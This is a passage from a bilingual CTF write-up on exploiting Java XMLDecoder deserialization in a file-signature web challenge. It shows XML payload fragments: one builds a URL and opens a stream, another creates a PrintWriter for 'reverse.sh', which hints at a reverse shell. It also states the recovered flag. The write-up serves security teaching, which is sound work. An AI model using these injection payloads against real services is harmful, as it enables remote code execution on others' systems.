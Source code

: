 ```xml

    <object class="java.net.URL">
        <object idref="command"/>
        <void method="openStream"/>
    </object>
</java>
```

Dzięki temu mogliśmy użyć komendy `find` aby znaleźć plik `flag` a potem wypisać go przez `cat` i uzyskać `flag{ser1l1azati0n_in_CTF_is_fUN}`

### ENG version

In the task there is a webpage which generates a signature for a selected file, and lets us verify the signature.
It is important to notice that signature files are:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">
 <object class="models.CTFSignature" id="CTFSignature0">
  <void class="models.CTFSignature" method="getField">
   <string>hash</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>da39a3ee5e6b4b0d3255bfef95601890afd80709</string>
   </void>
  </void>
  <void class="models.CTFSignature" method="getField">
   <string>sig</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>12a626d7c85bcc21d9f35302e33914104d8329a0</string>
   </void>
  </void>
 </object>
</java>
```

And therefore the signature object serialization, and probably deserialization, is handled by XMLEncoder and XMLDecoder.
They have the same type of vulnerability as Python Pickle - deserialization can execute any code as long as the input file is properly prepared.

For example we can create any object using `<object>` tag and then pass the constructor arguments to it, eg:

```xml
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
</object>
```

Will execute `new PrintWriter("reverse.sh");`
